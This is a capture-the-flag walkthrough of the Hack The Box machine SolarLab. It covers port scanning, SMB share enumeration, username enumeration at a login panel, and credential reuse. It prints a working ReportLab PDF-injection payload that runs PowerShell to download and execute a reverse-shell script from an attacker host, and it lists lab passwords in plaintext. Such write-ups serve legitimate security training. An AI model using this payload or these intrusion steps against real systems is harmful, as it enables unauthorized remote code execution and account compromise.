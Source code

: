 **Ping**
![[Pasted image 20240710092956.png]]

**Nmap Scans**
```
mapit 10.10.11.16
```

Nmap Default Scan
![[Pasted image 20240710093053.png]]

Nmap Service and Script Scan
![[Pasted image 20240710093136.png]]

Nmap All Port Scan
![[Pasted image 20240710093838.png]]

Nmap Service and Script Scan for New Port
![[Pasted image 20240710094009.png]]

Updated my hosts file
![[Pasted image 20240710095125.png]]

On Port 80 http://solarlab.htb
![[Pasted image 20240710103417.png]]

On Port 6791 http://report.solarlab.htb:6791
![[Pasted image 20240710103452.png]]

There an issue in this this login panel, it say's "user not found" when we give wrong username's
![[Pasted image 20240710103655.png]]

Gobuster Scan
```
gobuster dir -u http://solarlab.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,aspx -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster.txt
```
![[Pasted image 20240710101416.png]]

Smb Enumeration
```
smbclient -U '' -L \\\\10.10.11.16\\\\
```
![[Pasted image 20240710102325.png]]

Enumerate Share Documents
```
smbclient -N //10.10.11.16/Documents
```
![[Pasted image 20240710102455.png]]
![[Pasted image 20240710102732.png]]

Transferred 4 files from the share, will analyse that
![[Pasted image 20240710103205.png]]

Content of details-file.xlsx
![[Pasted image 20240710103046.png]]
We some juicy info here...!

Tested username against the login panel and find a valid Username
![[Pasted image 20240710103747.png]]
![[Pasted image 20240710104337.png]]
We can see different error message for two Usernames, so this should be a valid usernames

After trying all available password combinations nothing works......:(

But I can See the pattern here, those two users are displayed in the solarlab.htb here we just missing blake the developer, according to the pattern it is their first name and second name as initial(uppercase), so will check **blakeB**
![[Pasted image 20240710104742.png]]

This worked...!
![[Pasted image 20240710104819.png]]


Now will use his password from the xlsx file **blakeB:ThisCanB3typedeasily1@**
![[Pasted image 20240710104943.png]]
Cool, we can see the dashboard...!

Leave Request seems vulnerable
![[Pasted image 20240710111719.png]]
Initially I just uploaded a random picture and generated the pdf

Then I got a PDF
![[Pasted image 20240710111921.png]]




Downloaded and analysed the pdf with exiftool
```
exiftool ouput.pdf
```
![[Pasted image 20240710105802.png]]

We can see reportlab.com, I have seen this before while searching exploits for reporthub login panel 
![[Pasted image 20240710105918.png]]
After understanding the exploit, will now get a shell, now we have to add an extra line in request for pdf generation using burp
```
<para>
    <font color="[ [ getattr(pow,Word('__globals__'))['os'].system('powershell.exe -c iex (iwr -UseBasicParsing http://10.10.14.6/rev.ps1') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))]] and 'red'">
    exploit
    </font>
</para>
```
![[Pasted image 20240710114752.png]]
Then forward it, at the same time I have started my nc listener

Got shell as blake
![[Pasted image 20240710115013.png]]
![[Pasted image 20240710114955.png]]

**User.txt**
![[Pasted image 20240710115144.png]]


Got creds for other two users
![[Pasted image 20240710120415.png]]
**alexanderk:HotP!fireguard**  
**claudias:007poiuytrewq**

But I can't user this password any where

I can see Openfire user 
![[Pasted image 20240710120724.png]]

Will check program files
![[Pasted image 20240710120806.png]]
We have openfire and unknown program

Due to some technical difficulty, I can't be able to continue this box
But after sometime it worked and found admin cred and used Impacket-psexec to get a shell as admin and got root.txt
![[Pasted image 20240710123223.png]]
**Administrator:ThisPasswordShouldDo!@**

**Root.txt**
![[Pasted image 20240710123323.png]]



Done with SolarLab......:)